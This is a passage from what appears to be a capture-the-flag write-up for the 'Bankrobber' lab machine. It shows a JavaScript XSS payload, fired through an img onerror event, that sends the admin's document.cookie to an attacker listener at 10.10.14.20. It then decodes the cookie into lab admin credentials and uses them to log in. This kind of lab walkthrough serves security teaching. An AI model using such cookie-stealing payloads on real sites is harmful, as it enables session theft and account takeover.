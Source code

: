 **NOTE:** Had issues using the `onload` event on an `img` tag _or_ a basic `script` block with an `XMLHttpRequest` (shown below)... but the `onerror` event worked for an `img` tag with a bad `src` attribute?

```javascript
var r = new XMLHttpRequest();
r.open("GET","http://10.10.14.20/?c=".concat(encodeURIComponent(document.cookie)));
r.send();
```

![xss_admin](./bankrobber/xss_admin.png)

So the first request to `http://10.10.14.20/nope.png` fails and triggers the `onerror` event to run JavaScript that sends the URI encoded admin cookies as an HTTP GET parameter to the Python3 HTTP server.

Decoding these URI/base64 encoded cookies gives the following:

- id: `1`

- Username: `admin`
- Password: `Hopelessromantic`

Logging in with these credentials, gives the following admin panel at `http://10.10.10.154/admin`:

![admin](./bankrobber/admin.png)
